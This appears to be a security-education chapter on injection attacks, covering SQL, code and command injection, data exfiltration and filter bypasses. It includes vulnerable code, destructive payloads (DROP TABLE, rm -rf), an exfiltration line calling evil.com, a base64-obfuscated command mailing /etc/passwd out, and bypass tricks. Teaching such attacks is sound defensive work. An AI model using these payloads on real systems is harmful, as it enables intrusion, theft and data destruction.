



# Chapter 13: Injection

Injection attacks occur when user-supplied data is improperly sanitized and sent to an interpreter (e.g., SQL interpreter, CLI) as part of a command or query, causing unintended execution.

## SQL Injection
SQL injection is the most common form, targeting SQL databases by manipulating input parameters to alter SQL queries.



**Vulnerable Example:**
Concatenating user input directly into a SQL query.
```javascript
const user_id = req.body.user_id;
const result = await sql.query('SELECT * FROM users WHERE USER = ' + user_id);
```
**Exploits:**
- Truthy evaluation: `user_id = '1=1'` (Returns all users)
- Query appending: `user_id = '123abc; DROP TABLE users;'`
- Updating records: `user_id = '123abc; UPDATE users SET credits = 10000 WHERE user = 123abd;'`

## Code Injection
Code injection targets interpreters other than SQL, such as CLIs called by API endpoints, via improper input sanitization.



**Vulnerable Example:**
Passing user input into a local CLI executor.
```javascript
const options = defaultOptions + req.body.options;
exec(`convert -d ${videoData} -n ${videoName} -o ${options}`);
```

**Exploit:**
Injecting additional commands into the CLI (e.g., using line breaks or ampersands):
```javascript
const options = '-c h264 -ab 192k \ convert -dir /videos -s 1x1';
```

**Edge Case: Implicit CLI Invocation via Libraries**
Sometimes an application may not explicitly call a CLI using `exec`, but instead uses a library that invokes a CLI under the hood. For example, an image upload endpoint using the `imagemin` JavaScript library could still be vulnerable to injection because the library invisibly invokes `imagemin-cli` behind the scenes:
```javascript
const imagemin = require('imagemin');
// If req.body.name is not sanitized, the underlying CLI might be exploited
await imagemin([`/images/raw/${req.body.name}.png`], `/images/compressed/${req.body.name}.jpg`);
```

## Command Injection
Command injection is an elevated form of code injection where unintended commands are executed directly against the host OS (e.g., via Bash) rather than a local interpreter or CLI. This often leads to complete system compromise.



**Vulnerable Example:**
Improper sanitization of input passed to a shell command execution.
```javascript
exec(`rm /videos/raw/${req.body.name}`);
```
**Exploit:**
Using characters like `'` or `&&` to escape the initial command and execute OS-level commands.
```javascript
const name = 'myVideo.mp4 && rm -rf /videos/converted/';
```
**Implications:** Gives access to critical OS files (`/etc/passwd`, `/etc/shadow`, `~/.ssh`, `/etc/apache2/httpd.conf`, `/etc/nginx/nginx.conf`) and enables severe attacks like data theft, rewriting log files, adding rogue database users, server wiping, making unauthorized outbound requests (e.g., sending spam), altering login forms to phishing forms, and complete hijacking.

**Mitigations:** A robust permission system on Unix-based OSs can reduce risk. Forcing the API to run as an unprivileged user limits the damage a command injection vulnerability can cause, as the attacker will be restricted to the permissions of that unprivileged user.

## Injection Data Exfiltration Techniques
When exploiting injection vulnerabilities, attackers need to extract data. There are three primary strategies.

### 1. In-Band Data Exfiltration
- **How it works:** The attacker exploits the vulnerability, and the server executes the payload, returning the results directly in the web browser or HTTP response.
- **When to use:** Use when the application directly reflects the output of the executed query back to the user.
- **Example:**
```javascript
const payload = `user_id=1or1="select * from users"`;
const url = `https://megabank.com/update?${payload}`;
```

### 2. Out-of-Band (OOB) Data Exfiltration
- **How it works:** Uses database utility functions to make HTTP requests from the database server to an attacker-controlled server, sending the query results within the request.
- **When to use:** Use when the server does not reflect the injection results back to the client, but the database has permissions to make outbound network requests.
- **Example:**
```javascript
const payload = `UTIL_HTTP.request('https://evil.com', "user_id=1or1='select * from users'")`;
```

### 3. Inferential (Blind) Data Exfiltration
- **How it works:** The attacker forces the server to act erratically (e.g., slow down, throw errors) based on the success or failure of a boolean condition within the payload, inferring data character by character.
- **When to use:** Use when both in-band and OOB techniques are mitigated (e.g., no reflected output, restricted database network permissions).
- **Example (Time-based):** Using `WAITFOR DELAY` to measure response time.
```javascript
const payload = `user_id=1or1=WAITFOR DELAY '0:0:30'`;
// If response takes > 30s, the query executed successfully.
```

## Bypassing Common Defenses
While SQL injection is commonly mitigated using robust techniques like **prepared statements** and **stored procedures**, non-SQL CLI tools often lack these built-in defenses. 

Blocklists (filtering specific keywords/characters) are a common but weak defense against injection. **Allowlists** are highly preferred over blocklists. Attackers use various techniques to bypass these filters:

### 1. Encoding and Obfuscation
- **How it works:** Attackers can encode payloads to slip past blocklist string evaluations, allowing the interpreter to decode and execute the raw command later.
- **Base64 Encoding (Command Injection):**
  Blocked command: `mail -s "leaked file" "email@evil.com" < /etc/passwd`
  Encoded payload:
  ```bash
  base64 -D <<< bWFpbCAtcyAibGVha2VkIGZpbGUiICJlbWFpbEBldmlsLmNvbSIgPCAvZXRjL3Bhc3N3ZA== | sh
  ```
- **URL / Hex / Unicode Encoding:** If a WAF blocks `'` (single quote), an attacker might use URL encoding `%27`, Hex encoding `0x27`, or Unicode escapes like `\u0027`.
- **Double URL Encoding:** Attackers encode their payload twice. The WAF decodes it once (finding no malicious patterns) and forwards it, but the backend web server decodes it a second time, triggering the payload.

### 2. String Manipulation
- **String Concatenation/Splitting:** Breaking blocked keywords into smaller strings that are concatenated at runtime.
  - *SQL Example:* `'ex' + 'ec'` or `CONCAT('s', 'elect')`
  - *Command Injection Example:* `c'a't /et'c'/pass'w'd` (Bash ignores the quotes and executes `cat /etc/passwd`).
- **Case Manipulation:** If filters are poorly implemented and case-sensitive, an attacker can mix case formats.
  - *Example:* `sElEcT * FrOm uSeRs`

### 3. Whitespace Bypasses
- **How it works:** If a filter blocks spaces, attackers can substitute spaces with other characters that the interpreter treats as whitespace.
- **SQL Inline Comments:** Using `/**/` to replace spaces.
  - *Example:* `SELECT/**/username/**/FROM/**/users`
- **Alternative Whitespace Characters:** Using tabs (`%09`), newlines (`%0A`), or carriage returns (`%0D`).

### 4. Query Truncation
- **How it works:** Using comments to nullify the remainder of the query, effectively bypassing subsequent security checks (e.g., password verification logic).
- **Example:** `admin' -- ` or `admin' #`
